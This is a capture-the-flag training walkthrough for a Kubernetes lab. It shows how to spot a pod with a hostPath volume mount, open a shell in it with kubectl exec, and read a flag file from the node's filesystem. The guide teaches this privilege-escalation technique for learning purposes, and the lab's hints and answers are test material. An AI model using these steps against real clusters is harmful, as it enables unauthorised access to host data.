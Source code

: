 # Airborneio 24 Challenge

The *Airborneio 24* challenge requires you to find a flag located on the Kubernetes node's file system. Without direct access to the file system and a view only Kubernetes role, you will need to find a misconfiguration in an existing resource to gain access to the flag.

## Host Path Mount Misconfiguration

Pods often need to store data on the file system as processes execute. Kubernetes supports many different volume types. The Kubernetes [hostPath](https://kubernetes.io/docs/concepts/storage/volumes/#hostpath) volume mount provides persisted storage for a pod using a directory on the host node's filesystem. Often the most simple way to gain persisted storage, the [host path mount](https://microsoft.github.io/Threat-Matrix-for-Kubernetes/techniques/Writable%20hostPath%20mount/){: target="_blank" rel="noopener"} can be a powerful attack vector for privilege escalation.

Review the pod configurations in the `hth` namespace. Which pod is using a **hostPath** mount configuration? What directory on the host node's filesystem is being mounted into the pod?

??? tip "Hint"

    - List the pods running in the `hth` namespace. Make a note of the *api* pod's name, as you will need this in the next step.

        ```bash
        kubectl get pods -n hth
        ```

        !!! abstract "Expected Output"
            ```bash
            NAME            READY   STATUS    RESTARTS   AGE
            api-randomid    1/1     Running   0          2d21h
            ui-randomid     1/1     Running   0          2d21h
            ```

    - Describe the configuration for each pod using the `kubectl describe pod` command. Search the output for the pod that has a **Volume** with a **Type** set to **HostPath**. The volume's **Path** is pointing to a directory on the node's file system that will be accessible from inside a pod running in the cluster.

        ```bash
        kubectl describe pod -n hth ENTER_API_POD_NAME 
        ```

        !!! abstract "Expected Output"
            ```yaml hl_lines="2-4"
            Volumes:
              hth:
                Type:          HostPath (bare host directory volume)
                Path:          ?????
                HostPathType:  DirectoryOrCreate
            ```

    - The same pod will have a **Mount** referencing the *hth* volume. The mount will specify  that specifies the directory inside the container.

        !!! abstract "Expected Output"
            ```yaml hl_lines="2"
            Mounts:
              ????? from hth (ro)
              /var/run/secrets/kubernetes.io/serviceaccount from kube-api-access-rgfww (ro)
            ```

??? success "Answer"

    - With this knowledge, you have discovered a [host path mount](https://microsoft.github.io/Threat-Matrix-for-Kubernetes/techniques/Writable%20hostPath%20mount/){: target="_blank" rel="noopener"} attack path to get from a compromised **api** pod to the node's filesystem.

        ```
        Pod: api-randomid
        Pod Mount Location: /mnt/hth/
        Host Path Location: /opt/data/hth
        ```

## Host Path Mount Privilege Escalation

Given a scenario where the pod is compromised, an attacker can use the **hostPath** volume mount to gain unauthorized access data on the Kubernetes node. Use the `kubectl exec` command to obtain a shell on the compromised pod and exfiltrate the `airborneio-24` flag from the Kubernetes node's filesystem.

??? tip "Hint"

    - Use the `kubectl exec` command to obtain a shell on the compromised pod.

        ```bash
        kubectl exec --stdin --tty -n hth ENTER_API_POD_NAME -- /bin/bash
        ```


        !!! abstract "Expected Output"
            ```bash
            root@api-randomid:/#
            ```

    - Once inside the pod, list the contents of the mount location.

        ```bash
        ls -l ?????
        ```

        !!! abstract "Expected Output"
            ```bash
            total 0
            drwxr-xr-x. 2 root root 68 Nov  8 23:03 api
            drwxr-xr-x. 2 root root 27 Nov  8 23:03 secrets
            ```

    - List the contents of the directory to find the `airborneio-24` flag.

        ```bash
        ls -l ?????/secrets/
        ```

        !!! abstract "Expected Output"
            ```bash
            -rw-r--r--. 1 root root 42 Nov  8 23:03 airborneio-24
            ```

    - Use the `cat` command to read the contents of the `airborneio-24` file and retrieve the flag.

    - Run the following command to exit the shell and return to your local machine.

        ```bash
        exit
        ```

??? success "Answer"

    - The `airborneio-24` flag is located in the `/mnt/hth/secrets` directory on the container's filesystem.
        
        ```bash
        cat /mnt/hth/secrets/airborneio-24
        ```

        !!! abstract "Expected Output"
            ```bash
            hth{?????}
            ```

## Next Challenge

Congratulations! You have identified a [host path mount](https://microsoft.github.io/Threat-Matrix-for-Kubernetes/techniques/Writable%20hostPath%20mount/){: target="_blank" rel="noopener"} misconfiguration and exfiltrated the **Airborneio 24** flag from the Kubernetes node's file system.

Continue to the [Shadowhawk Challenge](./shadowhawk.md) to learn how Kubernetes pods can inherit permissions from the underlying Kubernetes node.
